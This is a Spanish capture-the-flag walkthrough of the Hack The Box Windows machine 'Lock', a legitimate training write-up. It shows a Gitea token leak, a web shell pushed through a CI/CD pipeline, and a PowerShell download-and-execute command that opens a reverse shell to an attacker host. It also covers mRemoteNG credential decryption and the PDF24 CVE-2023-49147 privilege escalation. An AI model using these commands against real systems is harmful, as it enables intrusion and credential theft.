# Resolución maquina Lock

**Autor:** PepeMaquina.
**Fecha:** 11 de Marzo de 2026.
**Dificultad:** Easy.
**Sistema Operativo:** Windows.
**Tags:** Api, GitHub, CVE.

---
## Imagen de la Máquina

*Imagen: Lock.JPG*
## Reconocomiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.3.13 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p80,445,3000,3389 10.129.3.13 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Lock - Index
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3000/tcp open  http          Golang net/http server
|_http-title: Gitea: Git with a cup of tea
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=ccdeffffd896e5c8; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=rux8v9b_NkPN-Cxonmm-hes1S8Y6MTc3MzI4NDc4NjI3NjU3NjkwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 12 Mar 2026 03:06:26 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=5d2b7b8d0c5ff168; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=PYtgdz-EZzuVSlfOqDzUAHWJZYA6MTc3MzI4NDc4NzQ3ODM0MjAwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 12 Mar 2026 03:06:27 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-12T03:07:31+00:00; -57s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-12T03:06:51+00:00
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2026-03-11T02:47:15
|_Not valid after:  2026-09-10T02:47:15

~~~
### Enumeración dentro de la pagina web
Al revisar la pagina web esta no contiene algo util en el puerto 80.



Se realizo enumeración de subdominios pero tampoco se logro encontrar información util.
### Obtencion repositorio oculto
Al inspeccionar el puerto 3000 se puede ver se trata de Gitea, esto es un sistema de repositorios como GitHub o GitLab, es este tipo de sistemas de pueden encontrar repositorios publicos.



Se logro encontrar un repositorio publico, esto contiene un codigo que menciona la existencia de `apis`, este tambien menciona un endpoint de repositorios.
Al revisar los commits se ve la existencia de un token de acceso personal `access_token`. `43ce39bb0bd6bc489284f2905f033ca467a6362f`



Este token normalmente sirve para autenticarse a GiTea y descargar el repositorio si es que requiere permisos.
Como se tiene un token, se utiliza el token para autenticarse a la API y ver que se puede obtener.



Al autenticarse con el token, se inspecciona los endpoints, existen algunos interesantes pero se necesita permisos administrativos.
Como bien lo decia el script, este revisaba en endpoint de repositorios, asi que tambien se procedio a revisar esto, logrando encontrar un repositorio extra que se mantiene en privado.







Se puede ver que el repositorio privado es `website`, esto contiene un repositorio `.git`, con los endpoints tambien se podria ver el contenido del repositorio privado, pero es mas simple descargar el `.git`, esto es posible con el access_token que se encontro.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content]
└─$ git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@10.129.3.13:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.02 MiB/s, done.
Resolving deltas: 100% (35/35), done.
~~~
Lo primero que se hizo fue revisar los commits, pero no se logro encontrar algo util.
### Aprovechando proceso CI/CD
Revisando el contenido del repositorio, se puede ver que es exactamente la pagina web hosteada en el `index.html`,  adicionalmente se puede ver informacion de integracion y despliegue continuo (`CI/CD`).
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ cat readme.md 
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver 
~~~
Como bien lo menciona, tiene un proceso automatizado de `CI/CD`, donde todo lo que se sube al repositorio se despliega automaticamente en el servidor.
Sabiendo esto y teniendo acceso al repositorio, se puede subir un archivo malicioso y realizar una reverse shell hacia la maquina atacante, para desplegar estos cambio con un commit en el repositorio.

Se sabe que la pagina del servidor es IIS por lo que permite los archivos con extensiones `.asp` o `.aspx`.
Pasando una reverse shell clasica de aspx se tiene el `cmdasp.aspx`.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx .        
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ ls           
assets  changelog.txt  cmdasp.aspx  index.html  readme.md
~~~
Ahora se puede subir el contenido directamente al repositorio, por suerte aprendi a utilizar algo de git en el trabajo.
Primero se ve la ruta en la que esta trabajando.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ git branch                                       
* main
~~~
Se trabaja en el main, esto es una mala practica ya que deberia existir distintas rutas para no trabajar en el main directamente para evitar este tipo de errores, pero la maquina esta diseñada asi, entonces que no tiene importancia.
Posteriormente se procede a añadir el nuevo archivo para subirlo.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ git add cmdasp.aspx
~~~
En este punto se tendria que realizar el commit, pero mi instancia de git no se encuentra configurada, asi que primero la configurare con los datos del mismo repositorio original, tanto email como username.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ git config --global user.email "ellen.freeman@oplock.vl"
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ git config --global user.name "ellen.freeman"
~~~
En este punto ya es posible realizar el commit.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ git commit -m 'prueba de la prueba'                     
[main fda5999] prueba de la prueba
 1 file changed, 42 insertions(+)
 create mode 100644 cmdasp.aspx
~~~
Con el commit creado ya se puede subir los cambios para que los realize.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/content/website]
└─$ git push origin main
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 988 bytes | 988.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.129.3.13:3000/ellen.freeman/website.git
   73cdcc1..fda5999  main -> main
~~~
Eso es todo lo necesario para subir el archivo al repositorio.
Si todo va bien, tal como dice el `CI/CD` deberia de trabajar y subir automaticamente el archivo, asi que despues de esperar 5 minutos se procede a ingresar a la web y se logra ver el archivo malicioso.



En este punto ya se tiene control sobre el sistema, ahora solo queda realizar una reverse shell para obtener acceso.
Mi reverse favorita con asp es usar la famosa `Invoke-PowerShellTcp.ps1`, para esto se modifico el script agregando el comando de ejecucion directamente dentro del script
~~~ps1
<----SNIP---->
	catch
   {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.x.x.x -Port 4433
~~~
Luego se debe abrir un servidor en python.
~~~bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
Y abrir un escucha en otro puerto.
El comando final que se lanza en la pagina `cmdasp.aspx` es el siguiente.
~~~
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/p2.ps1')
~~~



Al lanzarlo, si todo sale bien se ejecutara la reverse shell, logrando obtener acceso al servidor windows.
~~~bash
┌──(kali㉿kali)-[~/Downloads]
└─$ rlwrap -cAr nc -nvlp 4433                                                     
listening on [any] 4433 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.3.13] 64742
Windows PowerShell running as user LOCK$ on LOCK
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>
~~~
### Pivoting usuario ellen.freeman
Realizando enumeracion manual se puede ver que tiene permisos sobre el usuario `ellen.freeman`
~~~bash
PS C:\> whoami
lock\ellen.freeman
~~~
Tambien se puede ver un archivo de configuracion no muy comun.
~~~bash
PS C:\users\ellen.freeman> tree /f
Folder PATH listing
Volume serial number is 8592-A9D9
C:.
?   .git-credentials
?   .gitconfig
?   
+---.ssh
?       authorized_keys
?       
+---3D Objects
+---Contacts
+---Desktop
+---Documents
?       config.xml

PS C:\users\ellen.freeman\documents> type config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false"
<----SNIP---->
InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
~~~
Revisanso el archivo se puede ver que es `mremoteng`, para esto se puede ver un usuario `Gale.Dekarios` y una credencial, pero esta credencial tiene un tipo de encriptacion.
Buscando en internet se encontro un repositorio que descifra este tipo de archivos para este tipo de aplicaciones (https://github.com/kmahyyg/mremoteng-decrypt).
Lo bueno de ello es que se puede pasar directamente el `config.xml` y obtener las credenciales descifradas.
~~~bash
┌──(kali㉿kali)-[~/htb/lock/exploits/mremoteng-decrypt]
└─$ python3 mremoteng_decrypt.py -rf config.xml 
Username: Gale.Dekarios
Hostname: Lock
Password: ty8wnW9qCKDosXo6 
~~~
Realizando un password reuse se puede notar que el usuario `Gale.Dekarios` tiene efectivamente dichas contraseñas.
Pero recordando el unico puerto de acceso remoto es `RDP` y este usuario si tiene permisos RDP.
~~~bash
┌──(kali㉿kali)-[~/htb/lock]
└─$ sudo netexec rdp 10.129.3.13 -u users -p pass      
RDP         10.129.3.13     3389   LOCK             [*] Windows 10 or Windows Server 2016 Build 20348 (name:LOCK) (domain:Lock) (nla:False)
RDP         10.129.3.13     3389   LOCK             [+] Lock\Gale.Dekarios:ty8wnW9qCKDosXo6 (Pwn3d!)
~~~

Para entrar por RDP, lo que normalmente uso es REMMINA, ingresando las credenciales correctamente se puede ver que si tengo acceso.



---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Probando las credenciales encontradas para obtener acceso al servidor se puede ver que son efectivas, de esta manera ya se puede tener acceso al user flag.
~~~bash
C:\Users\gale.dekarios\desktop> cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios, lo primero que salta a la vista con la interfaz grafica, es la existencia de aplicaciones pdf `PDF24`.
Revisando esto se logro encontrar una version.



Revisando en internet, existe una vulnerabilidad para escalar privilegios con dicha version.
### CVE-2023-49147
Este CVE basicamente menciona que la reparacion de este binario o ejecutable implica el uso de permisos de administrador y al interceptar o interrumpir este proceso, se puede abrir un navegador y al entrar al cmd se puede obtener una shell como administrator.
Existe un articulo que lo explica bastante bien ([Escalada de privilegios local a través del instalador MSI en PDF24 Creator (geek Software GmbH) - SEC Consult](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)).
Replicando la explotación, primero se necesita pasar el binario `SetOpLock` de su propio repositorio (https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0) y pasarlo al servidor.
Al tenerlo en el servidor se ejecuta para interrumpir el proceso de reparacion.
~~~powershell
C:\Users\gale.dekarios\Documents>SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
~~~
Posteriormente se debe ejecutar la reparacion, para esto se necesita un el ejecutable `msiexec` pero tambien el archivo `.msi` parecido a este `pdf24-creator-11.14.0-x64.msi`, utilizando la busqueda recursiva se lo logra encontrar.
~~~powershell
C:\>where -r . pdf24-creator-11.15.1-x64.msi
	C:\_install\pdf24-creator-11.15.1-x64.msi
~~~
Con el `.msi` encontrado, se puede ejecutar el ataque para relizar la simulación.
~~~powershell
msiexec.exe /fa C:\_install\pdf24-creator-11.15.1-x64.msi
~~~
Esto empieza a realizar la reparacion.



Despues pedira una confirmacion, realmente no es necesario escoger una en especifico.



Al terminar la instalación, se abrira una ventana cmd pero si propiedad de escritura, a esto se debe selleccionar la opcion `propiedades`:



Y dentro de el seleecionar `legacy console`



Esto pedira acceder con un navegador, se debe escoger uno direfente a edge o explorer, esto para versiones de windows 11 pero nunca esta demas.



Al abrir un navegador, se presiona `crtl+o` para abrir el directorio de archivos y abrir un archivo pero colocar `cmd` para abrir el cmd en lugar de abrir un archivo real.



Al presionar `enter` se obtendra acceso a una shell con permisos root.



---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag.
~~~powershell
C:\Users\Administrator>cd /users/administrator/desktop

C:\Users\Administrator\Desktop>type root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

